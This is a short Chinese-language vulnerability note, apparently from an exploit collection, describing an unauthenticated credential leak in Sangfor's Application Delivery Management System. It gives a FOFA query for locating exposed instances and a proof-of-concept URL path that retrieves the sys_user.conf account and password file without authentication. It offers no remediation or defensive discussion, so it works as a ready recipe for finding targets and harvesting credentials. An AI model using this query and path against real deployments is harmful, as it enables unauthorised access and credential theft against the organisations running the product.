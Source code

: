 # 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

```
深信服 应用交付管理系统
```

## FOFA

```
app="SANGFOR-应用交付管理系统"
```

## 漏洞复现

登录页面

![image-20220525145113865](./images/202205251451936.png)

验证POC

```
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![image-20220525145136819](./images/202205251451862.png)